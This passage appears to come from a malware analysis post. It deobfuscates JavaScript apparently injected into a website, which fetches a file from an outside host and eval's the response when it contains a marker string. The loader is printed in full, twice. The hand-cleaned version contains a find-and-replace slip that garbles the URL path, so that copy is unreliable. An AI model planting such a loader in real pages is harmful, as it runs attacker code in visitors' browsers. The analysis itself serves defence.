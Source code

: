```javascript
    E.indexOf('www.') == 0 && (E = E.substr(4))
    if (K && !q(K, '://' + E) && !q(K, '://www.' + E) && !k) {
      var G = new HttpClient(),
        W =
          U +
          '//af.goflightcapital.com/wp-content/plugins/all-in-one-wp-migration/lib/vendor/bandar/bandar/lib/Exceptions/Exceptions.css?id=' +
          (rand() + rand())
      G.get(W, function (j) {
        q(j, 'qwzx') && v.eval(j)
      })
    }
    function q(j, i) {
      return j.indexOf(i) !== -1
    }
  })()
}
```

I was surprised at how powerful the deobfuscation tool was - it somehow constructed the full URL and gave me enough
information to see what the snippet was doing: making a request and `eval`-ing the response if it contained the string "qwzx".

A few manual edits cleaned up the code even more:

```javascript
if (typeof zqxq === 'undefined') {
    var zqxq = true;
    var HttpClient = function () {
        this.get = function (url, callback) {
            var request = new XMLHttpRequest()
            request.onreadystatechange = function () {
                if (request.readyState == 4 && request.status == 200) {
                    callback(request.responseText)
                }
            }
            request.open('GET', url, true)
            request.send(null)
        }
    };
    var rand = function () {
        return Math.random().toString(36).substr(2)
    };
    (function () {
        window.location.hostname.indexOf('www.') == 0 && (window.location.hostname = window.location.hostname.substr(4))
        if (document.referrer && !q(document.referrer, '://' + window.location.hostname) && !q(document.referrer, '://www.' + window.location.hostname) && !document.cookie) {
            var client = new HttpClient();
            var url =
                window.location.protocol +
                '//af.goflightcapital.com/wp-content/plugins/all-in-one-wp-migration/lib/vendor/bandar/bandar/lib/window.location.hostnamexceptions/window.location.hostnamexceptions.css?id=' +
                (rand() + rand());
            client.get(url, function (responseText) {
                q(responseText, 'qwzx') && window.eval(responseText)
            })
        }
        function q(j, i) {
            return j.indexOf(i) !== -1
        }
    })()
}
```